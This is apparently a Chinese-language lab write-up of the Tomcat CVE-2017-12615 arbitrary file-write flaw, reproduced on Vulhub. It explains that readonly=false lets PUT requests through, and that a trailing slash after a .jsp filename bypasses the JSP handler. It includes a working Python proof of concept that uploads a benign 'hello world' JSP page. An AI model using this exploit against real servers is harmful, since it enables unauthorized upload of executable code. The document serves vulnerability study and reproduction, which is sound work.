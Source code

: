 # Tomcat 任意文件写入（CVE-2017-12615）

## 介绍
本质是配置文件web.xml的default配置项中readonly导致的。

看看readonly是干嘛的：

![](1.png)

默认是true，true的话PUT和DELETE方法是被拒绝的。如果改为false，我们就能利用，用PUT方法上传文件


然后就可以上传任意文件了？ 首先了解一下： \
org.apache.jasper.servlet.JspServlet：默认处理jsp，jspx文件请求，不存在PUT上传逻辑，无法处理PUT请求
org.apache.catalina.servlets.DefaultServlet：默认处理静态文件（除jsp，jspx之外的文件），存在PUT上传处理逻辑，可以处理PUT请求。

我们能PUT文件到服务器，但jsp文件是不可以被PUT上去的，因为jsp文件会给到JspServlet处理的，而JspServlet没法处理PUT的请求。

只有DefaultServlet能处理PUT请求，通过构造特殊的后缀名绕过（若是windows也有方法绕），从而上传jsp木马。这就是CVE-2017-12615

## 版本
Tomcat 8.5.19
Vulhub

## 漏洞复现
通过在在文件名后面添加斜杠 / 来进行绕过

写一个POC

```
import requests
import sys
body = '''
<%@ page language="java" contentType="text/html; charset=UTF-8"
    pageEncoding="UTF-8"%>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>Insert title here</title>
</head>
<body>
    <%
        String str = "hello world";
        out.println(str);
    %>
</body>
</html>
'''
requests.put(sys.argv[1]+'haha.jsp/',data=body)
rq = requests.get(sys.argv[1]+'haha.jsp')
if rq.status_code == 200:
	print ("[+] Finish!")
else:
	print ("[-] Shit!")
```

执行
![](2.png)

访问上传成功了的haha.jsp
![](3.png)

